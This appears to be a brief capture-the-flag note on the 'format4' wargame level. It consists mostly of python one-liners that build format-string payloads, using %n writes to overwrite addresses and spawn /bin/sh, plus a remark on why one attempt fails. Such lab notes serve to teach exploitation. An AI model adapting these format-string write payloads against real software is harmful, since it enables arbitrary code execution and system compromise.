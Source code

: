 dump way: python -c "print 'AAAAAAAA' + '\x24\x97\x04\x08'+'%x '*4+'%134513800x '+'%n'" | ./format4 <br>
pop shell attempts:
- **#1** python -c "print 'AAAAAAAA' + '\x24\x97\x04\x08'+'BBBB'+'\x26\x97\x04\x08'+'\xc0\xf4\xff\xbf'+'\xc2\xf4\xff\xbf'+'%x '*4+'%26196x '+'%n'+'%20825x '+'%n'+'%109524x '+'%9\$n' +'%21564x' +'%10\$n'" => would fail cuz before calling exit it will move **1** to ESP, **overwriting** the pointer to **/bin/sh**
- **#1** python -c "print 'AAAAAAAA'+'\x24\x97\x04\x08'+'\x26\x97\x04\x08'+'\x1c\x97\x04\x08'+'\x1e\x97\x04\x08'+'\xa0\xf2\xff\xbf'+'\xa2\xf2\xff\xbf'+'%33969x '+'%6\$n'+'%33585x '+'%7\$n' + '%24203x ' + '%8\$n'+'%20826x'+'%9\$n'+'%43989x'+'%10\$n'+'%87100x'+'%11\$n'" > /tmp/test.txt
